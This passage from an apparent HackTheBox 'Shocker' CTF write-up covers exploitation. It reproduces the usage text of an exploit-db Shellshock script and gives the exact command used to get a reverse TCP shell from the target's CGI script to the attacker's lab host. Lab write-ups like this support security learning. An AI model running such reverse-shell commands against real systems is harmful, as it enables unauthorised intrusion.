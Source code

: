 ## 2. Exploitation

Nice, we got a script, `user.sh`, after some reaserch and manual enum, the box's apache webserver seems like it would be vulnerable to [this exploit](https://www.exploit-db.com/exploits/34900), let's download it from exploitdb.

This is the script's usage:
{% highlight python %}
Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages: specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234
{% endhighlight %}

So our command will be:
{% highlight bash linenos %}
python exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.11 lport=9004 pages=/cgi-bin/user.sh
{% endhighlight %}

### User Flag

![userflag](/images/hackthebox-writeups/shocker/user.gif)
